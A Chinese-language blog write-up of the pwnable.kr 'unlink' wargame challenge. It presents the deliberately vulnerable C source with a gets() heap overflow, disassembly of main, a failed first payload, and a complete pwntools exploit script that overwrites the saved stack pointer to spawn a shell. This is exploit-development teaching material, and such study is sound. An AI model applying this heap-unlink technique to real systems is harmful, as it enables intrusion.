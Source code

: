 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
	        struct tagOBJ* fd;
	        struct tagOBJ* bk;
	        char buf[8];
	}OBJ;
	
	void shell(){
	        system("/bin/sh");
	}
	
	void unlink(OBJ* P){
	        OBJ* BK;
	        OBJ* FD;
	        BK=P->bk;
	        FD=P->fd;
	        FD->bk=BK;
	        BK->fd=FD;
	}
	int main(int argc, char* argv[]){
	        malloc(1024);
	        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
	        // double linked list: A <-> B <-> C
	        A->fd = B;
	        B->bk = A;
	        B->fd = C;
	        C->bk = B;
	
	        printf("here is stack address leak: %p\n", &A);
	        printf("here is heap address leak: %p\n", A);
	        printf("now that you have leaks, get shell!\n");
	        // heap overflow!
	        gets(A->buf);
	         
	        // exploit this unlink!
	        unlink(B);
	        return 0;
	}




可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

	.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
	.text:0804852F                 public main
	.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
	.text:0804852F
	.text:0804852F var_14          = dword ptr -14h
	.text:0804852F var_10          = dword ptr -10h
	.text:0804852F var_C           = dword ptr -0Ch
	.text:0804852F var_4           = dword ptr -4
	.text:0804852F argc            = dword ptr  8
	.text:0804852F argv            = dword ptr  0Ch
	.text:0804852F envp            = dword ptr  10h
	.text:0804852F
	.text:0804852F ; __unwind {
	.text:0804852F                 lea     ecx, [esp+4]
	.text:08048533                 and     esp, 0FFFFFFF0h
	.text:08048536                 push    dword ptr [ecx-4]
	.text:08048539                 push    ebp
	.text:0804853A                 mov     ebp, esp
	.text:0804853C                 push    ecx
	.text:0804853D                 sub     esp, 14h
	.text:08048540                 sub     esp, 0Ch
	.text:08048543                 push    400h            ; size
	.text:08048548                 call    _malloc
	.text:0804854D                 add     esp, 10h
	.text:08048550                 sub     esp, 0Ch
	.text:08048553                 push    10h             ; size
	.text:08048555                 call    _malloc
	.text:0804855A                 add     esp, 10h
	.text:0804855D                 mov     [ebp+var_14], eax
	.text:08048560                 sub     esp, 0Ch
	.text:08048563                 push    10h             ; size
	.text:08048565                 call    _malloc
	.text:0804856A                 add     esp, 10h
	.text:0804856D                 mov     [ebp+var_C], eax
	.text:08048570                 sub     esp, 0Ch
	.text:08048573                 push    10h             ; size
	.text:08048575                 call    _malloc
	.text:0804857A                 add     esp, 10h
	.text:0804857D                 mov     [ebp+var_10], eax
	.text:08048580                 mov     eax, [ebp+var_14]
	.text:08048583                 mov     edx, [ebp+var_C]
	.text:08048586                 mov     [eax], edx
	.text:08048588                 mov     edx, [ebp+var_14]
	.text:0804858B                 mov     eax, [ebp+var_C]
	.text:0804858E                 mov     [eax+4], edx
	.text:08048591                 mov     eax, [ebp+var_C]
	.text:08048594                 mov     edx, [ebp+var_10]
	.text:08048597                 mov     [eax], edx
	.text:08048599                 mov     eax, [ebp+var_10]
	.text:0804859C                 mov     edx, [ebp+var_C]
	.text:0804859F                 mov     [eax+4], edx
	.text:080485A2                 sub     esp, 8
	.text:080485A5                 lea     eax, [ebp+var_14]
	.text:080485A8                 push    eax
	.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
	.text:080485AE                 call    _printf
	.text:080485B3                 add     esp, 10h
	.text:080485B6                 mov     eax, [ebp+var_14]
	.text:080485B9                 sub     esp, 8
	.text:080485BC                 push    eax
	.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
	.text:080485C2                 call    _printf
	.text:080485C7                 add     esp, 10h
	.text:080485CA                 sub     esp, 0Ch
	.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
	.text:080485D2                 call    _puts
	.text:080485D7                 add     esp, 10h
	.text:080485DA                 mov     eax, [ebp+var_14]
	.text:080485DD                 add     eax, 8
	.text:080485E0                 sub     esp, 0Ch
	.text:080485E3                 push    eax             ; s
	.text:080485E4                 call    _gets
	.text:080485E9                 add     esp, 10h
	.text:080485EC                 sub     esp, 0Ch
	.text:080485EF                 push    [ebp+var_C]
	.text:080485F2                 call    unlink
	.text:080485F7                 add     esp, 10h
	.text:080485FA                 mov     eax, 0
	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn
	.text:08048606 ; } // starts at 804852F
	.text:08048606 main            endp

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

	from pwn import *
	context(os='linux', log_level='debug')
	p=process("./unlink")
	shell_addr=0x80484eb
	stack_addr=p.recvline()
	stack_addr=stack_addr.split(": 0x")[1][:-1]
	stack_addr=int(stack_addr,16)
	
	heap_addr=p.recvline()
	heap_addr=heap_addr.split(": 0x")[1][:-1]
	heap_addr=int(heap_addr,16)
	
	p.recvuntil("get shell!\n")
	payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
	p.sendline(payload)
	p.interactive()

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)